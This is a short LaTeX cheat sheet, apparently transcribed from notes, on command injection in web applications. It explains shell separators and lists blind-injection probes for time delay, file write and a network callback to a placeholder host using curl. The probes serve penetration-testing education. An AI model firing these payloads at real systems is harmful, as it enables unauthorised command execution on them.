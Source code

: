 \documentclass[12pt, letterpaper]{article}
\begin{document}
\begin{itemize}
    \item Use \texttt{OPTIONS} method to request exactly what the server supports.
\end{itemize}

\subsection*{Command Injection}

f apps pass input directly to the command line without any checks, you can add extra commands.

\subsubsection*{Command Injection: How It Works}

\paragraph*{Shell Separators}

Standard shell features that work exactly as intended if the input reaches the shell.

\begin{itemize}
    \item \texttt{;} \textbf{semicolon}: runs the next command
    \item \texttt{|} \textbf{pipe}: sends the output of the first command to the second
    \item \texttt{\&\&} \textbf{double ampersand}: runs the second command only if the first succeeded
    \item \texttt{||} \textbf{double pipe}: runs the second command only if the first one failed
\end{itemize}

\paragraph*{Blind Command Injection}

\begin{itemize}
    \item \texttt{; sleep 5 --} \textbf{Time Delay}: If the response takes longer than 5 seconds, likely indicates injection.
    \item \texttt{; echo test > /var/www/html/proof.txt --} \textbf{File Write}: check if the file was written and now hosted
    \item \texttt{; curl https://YOUR-IP/ --} \textbf{Network Callback}: check for the request arriving on your server
\end{itemize}
\end{document}
